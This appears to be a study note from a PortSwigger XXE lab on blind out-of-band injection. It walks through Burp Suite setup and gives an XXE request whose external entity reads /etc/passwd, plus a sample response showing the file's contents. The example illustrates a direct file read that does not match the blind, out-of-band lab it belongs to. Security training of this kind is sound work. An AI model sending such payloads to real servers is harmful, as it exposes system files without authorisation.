

## Lab Setup and Environment

### Accessing the Lab

To solve the lab, you must use Burp Collaborator's default public server. The lab environment is set up with specific firewall rules that block interactions with random attacker servers. Therefore, you will be forced to use the professional version of Burp Suite.

#### Step-by-Step Instructions

1. **Access the Lab**: Open the lab environment and ensure that your requests are being intercepted by Burp Proxy.
2. **Map the Application**: Identify endpoints that interact with the backend and potentially accept XML input.
3. **Identify Vulnerable Endpoints**: Look for features like "check-stock" that involve XML input.

### Using Burp Suite

Burp Suite is a comprehensive toolkit for performing security testing of web applications. It includes tools such as the Burp Proxy, which intercepts and manipulates HTTP(S) traffic between your browser and the target application.

#### Setting Up Burp Proxy

1. **Start Burp Proxy**: Launch Burp Suite and start the Burp Proxy.
2. **Configure Browser**: Set your browser to use Burp Proxy as the HTTP proxy.
3. **Intercept Traffic**: Ensure that Burp Proxy is set to intercept traffic.

### Identifying Vulnerable Endpoints

Once you have mapped the application, look for endpoints that accept XML input. In this lab, the `check-stock` feature is a good candidate.

#### Example Request

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
</stockCheck>
```

### Sending Requests to Repeater

Use Burp Repeater to modify and resend the request to test for XXE vulnerabilities.

#### Modifying the Request

1. **Send Request to Repeater**: Right-click the request in the Proxy tab and select "Send to Repeater."
2. **Modify XML Input**: Add an external entity definition to the XML input.

### Example Modified Request

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```

### Understanding the Response

The response from the server will indicate whether the XXE injection was successful. If the server reads the contents of `/etc/passwd`, it will likely return an error or unexpected data.

#### Example Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1024
Content-Type: text/html

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

### Diagram: XXE Attack Flow



---
<!-- nav -->
[[06-How to Prevent  Defend Against XXE Attacks|How to Prevent  Defend Against XXE Attacks]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/00-Overview|Overview]] | [[08-Parameter Entities|Parameter Entities]]
